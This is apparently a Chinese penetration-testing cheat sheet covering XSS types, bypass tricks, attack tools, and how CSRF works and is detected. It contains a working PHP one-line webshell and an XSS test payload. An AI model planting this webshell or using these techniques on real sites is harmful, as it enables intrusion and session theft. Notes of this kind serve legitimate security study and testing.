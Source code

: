 一句话木马
<?php @eval($_POST['r00ts']);?> 



### XSS跨站脚本漏洞

反射型，持久型，dom型  

#### 持久型

**XSS平台**  

xss platform  

**XSS工具**  

webshell箱子  
beef  


##### 绕过


**HTTP only**：
- 未保存密码，表单劫持
- 保存密码，浏览器读取

**代码过滤**
- **实体化标签**：
  - ```"><script>alert(1)</script>  //用引号尖括号标记```
  - 利用搜索框和onclick函数
  - Unicode编码

**WAF拦截**
标签语法替换
- 特殊字符: / 在js中代表结束 <a /href="sdfsadf">

**XSStrike**
XSS工具


##### CSRF(Cross-Site Request Forgery)
**原理**：
1. 用户输入账号信息请求登录A网站。
2. A网站验证用户信息，通过验证后返回给用户一个cookie
3. 在未退出网站A之前，在同一浏览器中请求了黑客构造的恶意网站B
4. B网站收到用户请求后返回攻击性代码，构造访问A网站的语句
5. 浏览器收到攻击性代码后，在用户不知情的情况下携带cookie信息请求了A网站。此时A网站不知道这是由B发起的。那么这时黑客就可以进行一下骚操作了！

两个条件：
- 用户访问站点A并产生了cookie
- 用户没有退出A同时访问了B

**挖掘**：
1. 抓取一个正常请求的数据包，如果没有Referer字段和token，那么极有可能存在CSRF漏洞
2. 如果有Referer字段，但是去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。
3. 利用工具进行CSRF检测。如：CSRFTESTER，CSRF REQUEST BUILDER等
